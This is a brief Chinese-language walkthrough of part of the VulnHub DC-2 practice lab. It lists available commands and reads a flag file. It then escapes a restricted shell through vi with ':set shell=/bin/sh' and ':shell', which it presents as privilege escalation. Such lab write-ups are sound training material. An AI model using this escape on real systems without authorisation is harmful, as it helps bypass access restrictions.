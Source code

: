 ## 环境布置 ——vulnhub-dc2



```bash
compgen -c       //查看可以使用的指令
```

![image-20240119155752801](http://111.229.225.13:81/i/2024/01/19/ug9mvw-2.png)

发现可以使用vi命令,此命令存在提权（本质上属于sudo提权）

先查看提示

```bash
vi flag3.txt
```

![image-20240119155933240](http://111.229.225.13:81/i/2024/01/19/uflq7i-2.png)

先提权然后查看jerry账号

操作步骤

```bash
vi随便打开文件
输入:
再下面添加
:set shell=/bin/sh
:shell
```

![image-20240119164803845](http://111.229.225.13:81/i/2024/01/19/ug8o8i-2.png)

按回车，再次输入:

![image-20240119164829571](http://111.229.225.13:81/i/2024/01/19/ug7xjd-2.png)

![image-20240119164842649](http://111.229.225.13:81/i/2024/01/19/ufkr3w-2.png)

此时以及提升了权限，具体能提升多少，看操作环境